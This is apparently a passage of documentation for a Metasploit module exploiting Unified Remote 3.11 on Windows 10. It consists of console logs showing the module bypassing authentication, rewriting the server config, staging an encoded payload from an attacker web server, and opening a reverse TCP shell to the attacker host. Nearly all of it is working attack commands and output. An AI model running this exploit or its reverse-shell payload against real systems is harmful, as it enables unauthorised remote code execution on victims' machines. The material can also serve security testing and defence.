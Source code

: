 ```
[*] 2.2.2.2:9512 - Opening command prompt
[*] 2.2.2.2:9512 - Typing out payload
[*] 2.2.2.2:9512 - Using URL: http://1.1.1.1:8080/
[*] 2.2.2.2:9512 - Attempting to open payload
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 2.2.2.2
[*] 2.2.2.2:9512 - Reverting security mode
[*] 2.2.2.2:9512 - Uploading new server config
[*] 2.2.2.2:9512 - Sleeping 5 seconds for server to restart
[*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:59596) at 2022-09-08 16:50:21 -0400
[*] 2.2.2.2:9512 - Server stopped.
[!] 2.2.2.2:9512 - This exploit may require manual cleanup of 'c:\Windows\Temp\lqVUQTKtxuSD1mm.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>
```

### Version 3.11.0.2483 on Windows 10, user authentication, visible true

```
resource (unified.rb)> use exploits/windows/misc/unified_remote_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (unified.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (unified.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (unified.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/unified_remote_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2:9512 - Client name set to: android-Mmw9X2FSLLPzJk6t
[*] 2.2.2.2:9512 - Retrieving server config
[*] 2.2.2.2:9512 - users mode enabled, password required, bypassing
[*] 2.2.2.2:9512 - Uploading new server config
[*] 2.2.2.2:9512 - Sleeping 5 seconds for server to restart
[+] 2.2.2.2:9512 - Found account: admin
[+] 2.2.2.2:9512 - Found account: wheres
[*] 2.2.2.2:9512 - Sending handshake
[*] 2.2.2.2:9512 - Sending empty authentication
[*] 2.2.2.2:9512 - Opening Start Menu
[*] 2.2.2.2:9512 - Opening command prompt
[*] 2.2.2.2:9512 - Typing out payload
[*] 2.2.2.2:9512 - Using URL: http://1.1.1.1:8080/
[*] 2.2.2.2:9512 - Attempting to open payload
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 2.2.2.2
[*] 2.2.2.2:9512 - Reverting security mode
[*] 2.2.2.2:9512 - Uploading new server config
[*] 2.2.2.2:9512 - Sleeping 5 seconds for server to restart
[*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:59932) at 2022-09-08 16:53:05 -0400
[*] 2.2.2.2:9512 - Server stopped.
```